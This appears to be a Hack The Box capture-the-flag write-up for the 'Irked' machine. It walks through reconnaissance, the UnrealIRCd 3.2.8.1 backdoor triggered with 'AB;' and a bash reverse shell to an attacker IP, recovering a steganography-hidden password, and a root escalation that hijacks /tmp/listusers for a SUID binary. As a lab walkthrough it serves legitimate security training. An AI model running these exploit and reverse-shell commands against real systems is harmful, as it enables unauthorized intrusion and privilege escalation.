


# Irked - Easy

Target IP: **10.129.75.118**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.75.118 -v```

Output shows a variety of open ports.

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35169/tcp6  status
|   100024  1          36177/udp6  status
|   100024  1          55659/udp   status
|_  100024  1          58573/tcp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
58573/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add ```irked.htb``` to our hosts file and navigate to it.

We are greeted with this page, saying that "IRC is almost working." Ports 6697, 8067, 65534 were listed as IRC service ports.



We find a ```/manual``` directory through directory enumeration.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-x6un9clcc1]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://irked.htb/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://irked.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 72, Words: 5, Lines: 4, Duration: 7ms]
manual                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 6ms]
                        [Status: 200, Size: 72, Words: 5, Lines: 4, Duration: 7ms]
:: Progress: [87651/87651] :: Job [1/1] :: 5714 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
```

This just seems to be documentation for the web server, Apache 2.4.



Let's investigate the IRC service ports.

We can connect to port 6697, but it seems like we need valid credentials to authenticate.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-x6un9clcc1]─[~]
└──╼ [★]$ nc -nv 10.129.75.118 6697
Connection to 10.129.75.118 6697 port [tcp/*] succeeded!
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
ERROR :Closing Link: [10.10.15.194] (Ping timeout)
```

Searching up ```UnrealIRCd``` on searchsploit gives us some exploits for version 3.2.8.1.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-x6un9clcc1]─[~]
└──╼ [★]$ searchsploit UnrealIRCd
------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                              |  Path
------------------------------------------------------------------------------------------------------------ ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                     | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                              | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                   | windows/dos/27407.pl
------------------------------------------------------------------------------------------------------------ ---------------------------------
```

If the version is vulnerable, we could get RCE. CVE-2010-2075 looks interesting, we can get code execution just by prepending it by ```AB;```.

Let's try it.

We connect to the port, then send our reverse shell code with ```AB;```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-x6un9clcc1]─[~]
└──╼ [★]$ nc -nv 10.129.75.118 6697
Connection to 10.129.75.118 6697 port [tcp/*] succeeded!
:irked.htb NOTICE AUTH :*** Looking up your hostname...
AB; bash -c 'bash -i >& /dev/tcp/10.10.15.194/4444 0>&1'
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
```

After waiting a bit, we catch a shell as ```ircd```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-x6un9clcc1]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.75.118 32929
bash: cannot set terminal process group (619): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ whoami
whoami
ircd
```

We see ```djmardov``` in ```/home```, which seems to be the user we want to move laterally into.

```
ircd@irked:~/Unreal3.2$ ls -la /home
total 16
drwxr-xr-x  4 root     root     4096 Sep  5  2022 .
drwxr-xr-x 21 root     root     4096 Sep  5  2022 ..
drwxr-xr-x 18 djmardov djmardov 4096 Sep  5  2022 djmardov
drwxr-xr-x  3 ircd     root     4096 Sep  5  2022 ircd
```

Inside, there is a ```/Documents``` directory that holds the user flag and a hidden backup file.

```
ircd@irked:/home/djmardov/Documents$ ls -la
total 12
drwxr-xr-x  2 djmardov djmardov 4096 Sep  5  2022 .
drwxr-xr-x 18 djmardov djmardov 4096 Sep  5  2022 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
lrwxrwxrwx  1 root     root       23 Sep  5  2022 user.txt -> /home/djmardov/user.txt
ircd@irked:/home/djmardov/Documents$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

The ```steg``` likely refers to steganography. The password might be hidden inside the image we saw on the website.

Let's use ```steghide``` to extract it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-x6un9clcc1]─[~]
└──╼ [★]$ steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
wrote extracted data to "pass.txt".
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-x6un9clcc1]─[~]
└──╼ [★]$ cat pass.txt 
Kab6h+m+bbp2J:HG
```

We get a password, which works for the ```djmardov``` user.

```
ircd@irked:~$ su - djmardov
Password: 
djmardov@irked:~$ whoami
djmardov
```

We can proceed to get the user flag from here.

## Root Flag

```sudo``` isn't installed on the machine.

There are some interesting binaries with the SUID bit set.

```
djmardov@irked:~$ find / -perm -4000 -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/tmp/bash
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
```

I haven't seen ```viewuser``` yet.

Let's see what it does.

```
djmardov@irked:~$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2026-10-04 21:41 (:0)
sh: 1: /tmp/listusers: not found
```

It does something with ```/tmp/listusers```, likely using ```sh``` to run it. If that is the case, we could just create a script containing malicious code with the same name at the same location, and when we run ```viewuser```, it should execute as ```root```.

Let's try it.

Here is our new ```/tmp/listusers```.

```
djmardov@irked:~$ cat /tmp/listusers
/bin/bash -p
```

After running ```viewuser```, we get ```root```.

```
djmardov@irked:~$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2026-10-04 21:41 (:0)
root@irked:~# whoami
root
```

We can get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
